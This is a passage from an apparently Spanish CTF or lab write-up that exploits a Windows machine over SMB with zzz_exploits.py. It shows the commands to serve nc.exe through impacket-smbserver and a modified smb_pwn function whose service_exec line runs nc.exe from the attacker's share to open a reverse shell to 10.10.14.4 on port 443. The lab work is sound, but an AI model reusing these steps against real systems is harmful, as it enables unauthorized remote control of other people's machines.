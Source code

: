 ```
SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.
Removing service dvnY.....
Done
```

Nos descargamos en la máquina víctima desde nuestra máquina un nc.exe para poder conectarnos remotamente de la siguiente forma:

1. Nos descargamos el nc.exe de SecLists
2. Nos montamos un servidor samba
3. Modificamos el archivo zzz_exploits.py para solicitar un recurso de nuestramaquina
4. Nos ponemos en escucha en el puerto 443 en nuestra máquina
5. Corremos el exploit

Paso 1.

```console
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
```

Paso 2.

```console
impacket-smbserver smbFolder $(pwd)
```

```

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Paso 3

```python
[...]
def smb_pwn(conn, arch):
          #smbConn = conn.get_smbconnection()
          #
          #print('creating file c:\\pwned.txt on the target')
          #tid2 = smbConn.connectTree('C$')
          #fid2 = smbConn.createFile(tid2, '/pwned.txt')
          #smbConn.closeFile(tid2, fid2)
          #smbConn.disconnectTree(tid2)
     
          #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
          service_exec(conn, r'cmd /c \\10.10.14.4\smbFolder\nc.exe -e cmd 10.10.14.4 443'  )    
          # Note: there are many methods to get shell over SMB admin session
          # a simple method to get shell (but easily to be detected by AV) is
          # executing binary generated by "msfvenom -f exe-service ..."
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>